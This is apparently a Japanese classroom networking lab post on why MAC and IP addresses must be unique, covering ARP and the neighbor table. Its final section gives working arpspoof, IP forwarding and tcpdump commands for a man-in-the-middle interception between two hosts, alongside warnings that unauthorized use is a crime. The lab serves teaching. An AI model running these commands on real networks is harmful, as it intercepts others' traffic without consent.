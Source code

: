 ```yaml
---
layout: post
title:  "IPアドレスの一意性"
date:   2018-08-21
permalink: /networking/:title
categories: TCP/IP
tags: ARP IP
excerpt: IPアドレスやMACアドレスの一意性に関するポストです
mathjax: false
---
```

 
* content
{:toc}

**このトピックではARP Spoofingというテクニックを取り扱います。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。
講師の指示が無い限りARP Spoofingを試してはいけません。**

## アドレスの一意性

### 学習目的

ネットワークの動作がMACアドレスやIPアドレスの一意性に依存している事を確認します。
アドレスを操作して目的の通信が出来なくなったり他人の通信を盗聴することも出来る事実を確認しましょう。

### 手順

2台以上のホストを用意します。
ホストは同一ネットワーク上に配置してお互いにpingで疎通確認してください。

![](/images/arp/addressing01.png)

その後お互いのNICのMACアドレスを確認します。
VirtualBoxのネットワーク設定から任意のMACアドレスを設定することが出来ます。
あらかじめ確認した通信相手のMACアドレスと同じ値を指定してください。

作業は仮想マシンを停止してから行います。

![](/images/arp/bridge_mac.png)

仮想マシンを起動してMACアドレスが指定した値になっている事を確認します。
MACアドレスの一意性が崩れた状態です。
この状態で通信相手にpingが届かなくなっていることを確認してください。

```
# ip address show enp0s8
```

![](/images/arp/mac2.png)

![](/images/arp/addressing03.png)

MACアドレスを元に戻します。
次にIPアドレスが同一ネットワーク上で重複している状態を作り出してください。
IPアドレスの一意性が崩れた状態です。
この状態で通信相手にpingが届かなくなっていることを確認してください。

![](/images/arp/ip.png)

![](/images/arp/addressing02.png)

## ARPメッセージ

目的のIPアドレスの物理的な位置を知るためにARPメッセージが利用されます。
Wiresharkを起動してARPメッセージが流れる様を観察しましょう。

![](2019-07-14-16-17-17.png)

1. 08:00:27:da:ec:ab から ブロードキャストメッセージ「こちら 192.168.200.2 です. 192.168.200.1 はどこですか？」
2. 08:00:27:e0:4f:3b から 08:00:27:da:ec:ab へ返信「192.168.200.1 は 08:00:27:e0:4f:3b です」
3. 08:00:27:da:ec:ab から 08:00:27:e0:4f:3b へPING開始

ARPメッセージで物理的位置が判明したIPアドレスはARPテーブル（ネイバーテーブル）に記録されます。
ARPテーブルに記録されているIPアドレスは既に物理的位置が分かっていますから、ARPメッセージの交換をせずにいきなりIP通信を開始できます。

```
# ネイバーテーブルを確認する
ip neighbor
```

もしARPメッセージを新たに確認したい場合は記録済みのARPテーブルから該当のIPアドレスに関する記録を削除しましょう。

```
# ネイバーテーブルの確認
ip neighbor

#10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 REACHABLE
#192.168.200.99 dev enp0s8 lladdr 08:00:27:48:aa:7a STALE
#192.168.200.1 dev enp0s8 lladdr 08:00:27:e0:4f:3b STALE
#172.16.0.21 dev vlan20 lladdr 08:00:27:e0:4f:3b STALE

# 192.168.200.1 dev enp0s8 に関する記録を削除
ip neighbor del 192.168.200.1 dev enp0s8
```

## ARP Spoofing

MACアドレスやIPアドレスが一意であることには意味があるという事が分かりました。
では次のようなネットワークが存在したらどうなるでしょうか。
192.168.200.1と192.168.200.2が通信しているネットワークに不審な挙動の192.168.200.99が割り込んでいます。

![](2019-07-14-14-38-38.png)

不審なホストの割り込みによって、192.168.200.1と192.168.200.2はお互いのMACアドレスを記録したネイバーテーブルを上書きされました。
そのため192.168.200.1から192.168.200.2へデータを送信する経路は次のように変化します。

![](2019-07-14-14-49-32.png)

### 確認手順

実際に試してみましょう。
不審なホストでこれを実現する為のコマンドは次の通りです。

```
# 上の図で不審なホストである 192.168.200.99 でこのコマンドを実行する

# パケット転送機能ON
sysctl -w net.ipv4.conf.enp0s8.forwarding=1

# 192.168.200.1に対して192.168.200.2に成りすます
arpspoof -i enp0s8 -t 192.168.200.1 192.168.200.2 &

# 192.168.200.2に対して192.168.200.1に成りすます
arpspoof -i enp0s8 -t 192.168.200.2 192.168.200.1
```

準備が出来たら192.168.200.1から192.168.200.2へPINGを送信します。
分かりやすくするためPINGのメッセージパターンにdeadbeafを指定しておきましょう。

![](2019-07-14-15-29-12.png)

192.168.200.99でtcpdumpを使えばパケットを盗聴出来ている事を確認出来ます。
```
tcpdump -i enp0s8 net 192.168.200.0/24 and not arp -x
```

![](2019-07-14-15-26-06.png)

このようにMACアドレスを騙る行為をARP Spoofing（ARPメッセージによる成りすまし）と呼びます。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。

